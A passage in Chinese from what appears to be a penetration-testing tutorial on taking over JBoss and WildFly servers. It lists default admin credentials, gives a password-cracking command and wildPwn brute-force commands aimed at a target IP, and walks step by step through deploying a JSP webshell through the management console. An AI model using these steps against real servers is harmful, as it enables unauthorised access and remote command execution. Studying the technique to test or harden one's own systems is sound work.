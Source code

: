 ```
# john --wordlist=password.list --format=dynamic_1591
```

### Jboss < 7.x默认管理控制台弱口令爆破

`jboss 6.x-7.x`版本的默认管理控制台入口,因此版本默认没有强制复杂密码策略,所以比较容易出现弱口令。
Jboss 的常见弱口令:

```
admin:admin
admin:jboss
admin:password1! 
jboss:admin 
admin:ezoffice
```

### Jboss > 7.x 和WildFly默认管理控制台弱口令爆破

`jboss`从8开始正式更名为`WildFly` ,在`WildFly8`之后的版本添加控制台用户时默认就会执行强密码策略,所以相对于之前低版本的`jboss`,针对`WildFly`之后版本的弱口令推荐`wildPwn`这款爆破工具

```
# git clone https://github.com/hlldz/wildPwn.git 
# cd wildPwn
# python wildPwn.py -m brute --target 192.168.3.108 --port 8080 -user userList.txt -pass passList.txt  
```

![image.png](jboss_getshell.assets/1592147170_5ee63ce283128.png!small)

### WildFly默认管理控制台部署webshell方法

1、通过账号密码登到 `wildlfy` 控制台页面后,找到 `Deployments` 选项,上传`war`包
![image.png](jboss_getshell.assets/1592147178_5ee63cea7d205.png!small)2、此处勾选启用`Enable`
![image.png](jboss_getshell.assets/1592147187_5ee63cf354f52.png!small)![image.png](jboss_getshell.assets/1592147194_5ee63cfa3de43.png!small)3、提示成功后会直接部署到`jboss`根目录下,访问`http://127.0.0.1:8080/cmd/cmd.jsp`
![image.png](jboss_getshell.assets/1592147208_5ee63d0802b06.png!small)4、访问木马webshell
![image.png](jboss_getshell.assets/1592147218_5ee63d12f1d25.png!small)
